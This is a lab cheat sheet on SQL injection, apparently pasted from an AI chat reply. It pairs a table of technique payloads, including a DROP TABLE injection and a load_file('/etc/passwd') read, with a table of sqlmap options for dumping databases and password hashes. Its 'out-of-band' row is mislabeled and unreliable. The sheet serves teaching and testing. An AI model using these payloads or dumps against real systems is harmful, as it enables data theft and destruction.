 
### Table 1: Summary of SQL Injection Techniques

| **Technique**                | **Objective**                                                 | **Example Payload**                                      | **Description**                                              |
|------------------------------|---------------------------------------------------------------|---------------------------------------------------------|--------------------------------------------------------------|
| **Basic SQL Injection**      | Bypass authentication or extract data                        | `' OR '1'='1`                                          | Tests if the input can manipulate the query logic.          |
| **Error-Based SQL Injection**| Gather information through error messages                     | `' AND 1=CONVERT(int, (SELECT @@version))--`          | Generates an error to reveal database version info.         |
| **Boolean-Based SQL Injection**| Determine if a condition is true or false                  | `' AND 1=1 -- ` (True)                                 | Tests the query's response to true/false conditions.        |
| **Union-Based SQL Injection**| Retrieve data from other tables                              | `' UNION SELECT NULL, table_name FROM information_schema.tables--` | Combines results from multiple queries to extract data.      |
| **Time-Based SQL Injection** | Delay response to infer information                           | `' OR IF(1=1, SLEEP(5), 0)--`                          | Uses timing to determine if the injection was successful.    |
| **Second-Order SQL Injection** | Exploit previously stored data to execute a new query    | `'; DROP TABLE users;--`                               | Injects malicious code into previously stored data fields.   |
| **Out-of-Band SQL Injection**| Exfiltrate data through external channels                    | `' UNION SELECT load_file('/etc/passwd')--`           | Uses external connections to retrieve data from the database. |

---

### Usage

- **How to Use This Table**: 
  - During lab exercises, refer to the appropriate technique based on the task at hand.
  - Utilize the example payloads to test for SQL injection vulnerabilities.
  - Keep in mind the objectives of each technique to guide your exploration and documentation.

---

Sure! Here's the additional section with the commands for **sqlmap** you requested, formatted for inclusion in the lab document. This section provides a concise overview of various **sqlmap** command-line options, their purposes, and descriptions.

---

### Table 2: Common SQLMap Commands and Options

| **Option**                       | **Description**                                                        |
|----------------------------------|------------------------------------------------------------------------|
| `-a`, `--all`                    | Retrieve everything from the database.                                |
| `-b`, `--banner`                 | Retrieve the DBMS (Database Management System) banner.                |
| `--current-user`                 | Retrieve the current DBMS user.                                       |
| `--current-db`                   | Retrieve the current database in use by the DBMS.                     |
| `--dbs`                          | Enumerate the databases available in the DBMS.                        |
| `--exclude-sysdbs`              | Exclude system databases when enumerating tables.                     |
| `--users`                        | Enumerate DBMS users.                                                |
| `--passwords`                    | Enumerate password hashes for DBMS users.                             |
| `--tables`                       | Enumerate tables in a specified database.                             |
| `--columns`                      | Enumerate columns in a specified table.                               |
| `--schema`                       | Enumerate the database schema.                                        |
| `--count`                        | Retrieve the number of entries for specified table(s).                |
| `--dump`                         | Dump (output) the entries from specified database tables.             |
| `--dump-all`                     | Dump all entries from all database tables.                            |
| `-D DB`                          | Specify the database to enumerate.                                    |